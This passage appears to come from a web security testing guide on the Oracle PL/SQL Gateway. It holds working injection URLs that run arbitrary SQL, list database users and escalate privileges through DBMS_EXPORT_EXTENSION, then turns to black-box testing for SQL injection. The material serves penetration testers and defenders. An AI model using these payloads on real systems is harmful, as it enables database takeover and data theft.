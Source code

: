 Note the presence of FOO in the attacker’s query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets:

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

This results in the following PL/SQL being executed:

```sql
..
orasso.home();--=>:);--);
..
```

Note that everything after the double minus (`--`) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it’s this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use `HTP.PRINT` to print BAR, and add the needed bind variable as :1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

This should return a `200` with the word "BAR" in the HTML. What’s happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it’s possible to also gain access to `owa_util.cellsprint` again:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1:

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Note that the output won’t be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in `DBMS_EXPORT_EXTENSION`

```txt
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

### Assessing Custom PL/SQL Web Applications

During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities.

#### Testing for SQL Injection

Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator.
